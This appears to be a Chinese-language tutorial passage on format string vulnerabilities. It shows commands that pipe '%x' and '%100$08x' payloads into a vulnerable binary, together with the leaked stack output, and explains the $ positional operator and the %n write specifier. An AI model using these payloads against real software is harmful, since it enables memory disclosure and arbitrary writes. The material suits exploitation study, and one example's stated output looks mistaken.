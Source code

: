 ```
lometsj@ubuntu:~/format$ python -c "print '%x'*50" | ./print2
64f7f895a0f7e676bbffdfd03effdfd13ce0782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825257825f7f893dcffdfd0a00f7def637f7f89000f7f890000f7def6371ffdfd134ffdfd13c000f7f89000f7fd8c04f7fd80000
lometsj@ubuntu:~/format$ python -c "print '%x'*100" | ./print2
64f7f175a0f7df56bbffcc85ceffcc86cce0782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825257825f7f173dcffcc86300f7d7d637f7f17000f7f170000f7d7d6371ffcc86c4ffcc86cc000f7f17000f7f66c04f7f660000
```
### 读取数据
```
$ python -c "print '%08x, '*16" | ./print2
00000064, f7f415a0, f7e1f6bb, ffef4d4e, ffef4e4c, 000000e0, 78383025, 3025202c, 202c7838, 78383025, 3025202c, 202c7838, 78383025, 3025202c, 202c7838, 78383025, 
```


## 读取数据
### $操作符
读取一个特定的参数
```
printf("%3$s", 1, "b", "c", 4);
```
将显示`3`而不是对应顺序的`1`
例子：
- `printf("%3$d",1,2,3);`
    - 显示`3`
- `printf("%3$d %2$d %1$d",1,2,3);`
    - 显示`3 2 1`
### 读取栈上第100个dword数据
```
$ python -c "print '%100\$08x'" | ./print2
ffa3cad0
```
<font color=Red>通过$操作符读取任意地址数据</font>

## 写入数据
### `%n`
操作符|说明
----|----
n	|不输出字符，但是把已经成功输出的字符个数写入对应的整型指针参数所指的变量。


目标地址
- 格式化字符串的参数
目标值
- 到目前为止成功输出的字符个数
